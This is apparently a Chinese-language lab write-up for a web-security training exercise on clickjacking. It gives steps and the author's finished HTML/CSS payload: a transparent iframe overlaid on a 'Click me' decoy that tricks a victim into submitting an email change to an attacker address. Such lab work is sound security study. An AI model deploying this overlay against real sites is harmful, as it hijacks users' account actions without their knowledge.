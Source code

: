 ### 步骤

登录账号

转到利用漏洞攻击服务器，对模板进行以下调整：

1、将YOUR-LAB-ID替换为自己实验室ID，以便URL指向目标网站的用户帐户页面，其中包含"更新电子邮件"表单
2、用合适的像素值替换iframe的$height_value和$width_value变量（建议分别为700 px和500 px）。
3、用合适的像素值替换诱饵网页内容的$top_value和$side_value变量，使"更新电子邮件"按钮和"测试我"诱饵动作对齐（我们建议分别为450px和80px）
4、设置不透明度值$opacity以确保目标iframe是透明的。最初，使用0.1的不透明度，以便可以对齐iframe操作并根据需要调整位置值。对于提交的攻击，值0.0001将起作用。

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
 
 
我的是：
 
<style>
iframe {
    position:relative;
    width:500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
}
div {
    position:absolute;
    top:450px;
    left:80px;
    z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://0a4c001a03ab3eb683b0198d001e00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
